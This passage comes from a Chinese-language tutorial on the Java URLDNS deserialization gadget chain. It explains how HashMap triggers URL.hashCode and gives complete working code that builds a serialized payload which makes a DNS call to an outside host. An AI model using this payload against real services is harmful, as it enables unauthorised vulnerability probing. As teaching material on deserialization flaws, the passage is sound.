 ```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

结合如上段落的分析，当传入一个 URL 对象到这个`hash`方法，便会执行`java.net.URL#hashCode`方法，这样就能够触发恶意行为。

继续观察`HashMap`类，发现在`put`方法对`putVal`方法进行了调用，此处同样调用了`hash` 方法。

```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

既然如此，那就可以将一个`URL`对象放置在`HashMap`中，通过调用`HashMap`的`put`方法，从而在反序列化执行`readObject`方法时触发`hash`方法的执行，该方法将调用传入的`URL`对象的`hashCode`方法，如此便可达到执行 DNS 查询的恶意行为。

### 利用代码及验证

利用代码如下，关于详细的代码释义见其中的代码注释。需要特别注意地是，在序列化时，需要通过反射修改 hashCode 成员变量为非-1，否则在序列化时就会触发 DNS 请求，这样将会对反序列化漏洞的检测造成误报。

```java
package com.javasec.urldns;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
    public static void main(String[] args) throws Exception {

        URL url = new URL("<http://urldns.1asj4bef1af.ipv6.bypass.eu.org>");

        // 利用反射技术获取java.net.URL类对象
        Class c = Class.forName("java.net.URL");

        // 获取hashCode成员变量
        Field f = c.getDeclaredField("hashCode");
        f.setAccessible(true);
        // 修改hashCode的值为非-1，以防止在序列化时触发DNS查询，造成误报
        f.set(url, 1);

        HashMap<URL, Integer> hashMap = new HashMap<>();
        hashMap.put(url, 0);

        // 将hashCode改回-1，以在反序列化时触发DNS查询
        f.set(url, -1);

        // 生成恶意的序列化数据
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns.ser"));
        oos.writeObject(hashMap);
    }
}
```
